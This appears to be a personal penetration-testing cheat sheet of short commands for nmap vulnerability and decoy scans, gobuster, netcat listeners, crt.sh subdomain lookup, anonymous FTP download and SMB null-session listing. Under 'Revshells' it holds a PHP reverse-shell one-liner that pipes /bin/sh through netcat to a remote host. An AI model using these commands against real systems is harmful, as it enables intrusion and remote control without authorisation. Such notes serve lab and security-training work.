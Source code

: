 # Useful Codes
---
## nMap
---
- Vulnerability Script Nmap SE
```bash
sudo nmap $IP -sV --script vuln
```
- Decoy IP Nmap
```bash
sudo nmap $IP -sS -Pn -n -D RND:5
```
- Update Script DB
```bash
sudo nmap --script-updatedb
```
- Find Scripts for nMap
```bash
find / -type f -name $INPUT* 2>/dev/null | grep scripts
```
- FTP Scan with Scripts
```bash
sudo nmap -sV -p21 -sC -A 10.129.14.136
```
- SMB Scan with Scripts
```bash
sudo nmap $IP -sV -sC -p139,445
```
---
## Gobuster
---
- Gobuster Dir

```bash
gobuster dir -u http://$IP --wordlist $Wordlist
```
---
## Hydra
---



---
## Netcat
---
- Listening for incoming RevShells
```sh
nc -lvnp port
```
- Listen for incoming calls
```sh
nc -nc ip port
```

---
## Python
---
- Python Server
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---
## Revshells
---
- PHP Reverse Shell
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f"); ?>
```

---
## XML Prettyfy
---
```bash
xsltproc all.xml -o all.html (nmap xml to html)
```
---
## SSL Certificate
- Check Certificate Term Json
```bash
curl -s https://crt.sh/\?q\=$Domain\&output\=json | jq .
```
- Check Certificate Unique Subdomain
```bash
curl -s https://crt.sh/\?q\=$Domain\&output\=json | jq . | grep name | cut -d":" -f2 | grep -v "CN=" | cut -d'"' -f2 | awk '{gsub(/\\n/,"\n");}1;' | sort -u
```
---
## FTP
- Download All Available Files
```bash
wget -m --no-passive ftp://anonymous:anonymous@$IP

```
- Recursive Listing
```bash
ls -R
```
---
## SMB (Samba)

- Get Smb config
```bash
cat /etc/samba/smb.conf | grep -v "#\|\;" 
```

- List Server's Shares with Null Session (-N) that is an anonymous access.
```bash
smbclient -N -L //$IP
```
## Network File System (NFS)
- Enumerate
```bash
sudo nmap 10.129.9.119 -p111,2049 -sV -sC
```
---
## Various
- Lista Folder
```bash
tree $PATH
```

